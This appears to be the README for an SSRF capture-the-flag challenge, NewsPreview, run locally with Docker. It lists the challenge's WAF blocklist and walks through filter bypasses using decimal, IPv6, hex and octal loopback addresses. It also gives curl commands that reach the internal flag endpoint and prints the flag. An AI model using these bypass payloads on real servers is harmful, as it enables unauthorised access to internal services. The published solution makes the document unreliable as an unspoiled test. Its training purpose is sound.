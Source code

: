 # NewsPreview Platform - SSRF CTF Challenge

A medium-hard level CTF challenge featuring Server-Side Request Forgery (SSRF) vulnerability in a news preview platform.

## 🎯 Challenge Description

NewsPreview is a platform that allows users to paste news article URLs and get instant previews with metadata extraction. The platform fetches external content to extract titles, descriptions, and images from web pages.

**Objective**: Find and exploit the SSRF vulnerability to retrieve the flag from an internal service.

## 🚀 Setup Instructions

### Prerequisites
- Docker and Docker Compose installed
- Basic knowledge of web security and SSRF attacks

### Running the Challenge

1. Clone or download the challenge files
2. Navigate to the challenge directory
3. Build and start the services:

```bash
docker-compose up --build
```

4. Access the application at `http://localhost:3000`

### Services
- **Main Application**: `http://localhost:3000` (publicly accessible)
- **Internal Service**: `http://127.0.0.1:5001` (internal only)

## 🕵️ Challenge Walkthrough

### Initial Reconnaissance

1. **Explore the website**: Visit `http://localhost:3000`
2. **Check robots.txt**: Look at `/robots.txt` for hints
3. **Inspect the source**: Look for HTML comments and hints
4. **Test functionality**: Try the preview feature with legitimate URLs

### Discovery Phase

1. **Network Analysis**: Use browser dev tools or Burp Suite to intercept requests
2. **API Endpoint**: Notice the `/preview?link=` endpoint being called
3. **Parameter Testing**: Test various URL inputs to understand filtering

### Exploitation Path

1. **Basic SSRF Attempt**: Try `http://127.0.0.1:5001/admin/flag`
   - Result: Blocked by WAF with "Access denied: loopback protection."

2. **WAF Bypass Techniques**:
   - **Decimal IP Encoding**: `http://2130706433:5001/admin/flag`
   - **IPv6 Loopback**: `http://[::1]:5001/admin/flag`
   - **Redirect-based bypass**: Set up external redirect to internal service

3. **Flag Retrieval**: Successfully bypass WAF to access internal flag endpoint

## 🛡️ WAF Rules (What's Blocked)

The challenge includes a Web Application Firewall that blocks:
- `localhost` (case-insensitive)
- `127.0.0.1`
- `file://` protocol
- `169.254.` (link-local addresses)
- URLs starting with `127.`
- URLs starting with `0.0.0.0`
- Non-HTTP/HTTPS protocols

## 🎯 Bypass Techniques

### Method 1: Decimal IP Conversion
Convert `127.0.0.1` to decimal format:
- `127.0.0.1` = `2130706433`
- URL: `http://2130706433:5001/admin/flag`

### Method 2: IPv6 Loopback
Use IPv6 loopback address:
- URL: `http://[::1]:5001/admin/flag`

### Method 3: Alternative Loopback Representations
- `http://0x7f000001:5001/admin/flag` (hexadecimal)
- `http://017700000001:5001/admin/flag` (octal)

## 🏆 Solution

The flag can be obtained by making a request to:
```
http://localhost:3000/preview?link=http://2130706433:5001/admin/flag
```

Or:
```
http://localhost:3000/preview?link=http://[::1]:5001/admin/flag
```

**Flag**: `ACNCTF{ssrf_balanced_challenge}`

## 🔍 Hints in the Challenge

1. **HTML Comment**: `<!-- powered by internal news-parser 1.0 -->`
2. **robots.txt**: Contains reference to `/internal-admin` being restricted
3. **WAF Error Messages**: Provide clues about what's being filtered
4. **Internal Service Discovery**: Try common internal ports and paths

## 🧠 Learning Objectives

- Understanding SSRF vulnerabilities and their impact
- WAF bypass techniques for SSRF
- IP address encoding methods
- Internal service discovery
- Difference between blacklist and whitelist filtering

## 🛠️ Development Notes

### Architecture
- **Main App** (Port 3000): Express.js application with the vulnerable `/preview` endpoint
- **Internal Service** (Port 5001): Simulated internal service hosting the flag
- **Docker Network**: Isolated environment preventing direct external access to internal service

### Security Features
- Basic WAF implementation with common SSRF protections
- Request logging for debugging
- Timeout and redirect limits to prevent DoS

## 🔧 Debugging

### Check Service Status
```bash
# View logs
docker-compose logs main-app
docker-compose logs internal-service

# Test internal service (from inside container)
docker-compose exec main-app wget -qO- http://internal-service:5001/admin/flag
```

### Manual Testing
```bash
# Test main app
curl "http://localhost:3000/preview?link=https://example.com"

# Test blocked request
curl "http://localhost:3000/preview?link=http://127.0.0.1:5001/admin/flag"

# Test bypass
curl "http://localhost:3000/preview?link=http://2130706433:5001/admin/flag"
```

## 📚 Additional Resources

- [OWASP SSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)
- [PortSwigger SSRF Lab](https://portswigger.net/web-security/ssrf)
- [IP Address Converters](https://www.silisoftware.com/tools/ipconverter.php)

## ⚠️ Disclaimer

This challenge is designed for educational purposes and authorized testing environments only. Do not use these techniques against systems you do not own or have explicit permission to test.
